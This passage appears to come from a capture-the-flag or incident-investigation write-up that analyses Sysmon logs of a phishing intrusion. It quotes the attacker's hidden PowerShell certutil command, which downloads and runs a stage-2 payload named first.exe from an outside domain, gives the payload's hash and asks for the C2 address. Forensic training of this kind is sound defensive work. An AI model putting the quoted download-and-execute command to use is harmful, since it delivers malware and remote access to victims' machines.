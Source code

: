 Then we can see that after `first.exe` was executed, several enumeration commands were executed as child of this process so `first.exe` is the second payload and its payload responsible for reverse shell connection to the attacker C2.

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
```

>Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

![c38feabf18884d0f81e9b408185c947a.png](/resources/c38feabf18884d0f81e9b408185c947a.png)

We can check out the event that `first.exe` was executed to get hash of this file right here.

```
CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
```

>The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker? <br>
*Format: domain:port*
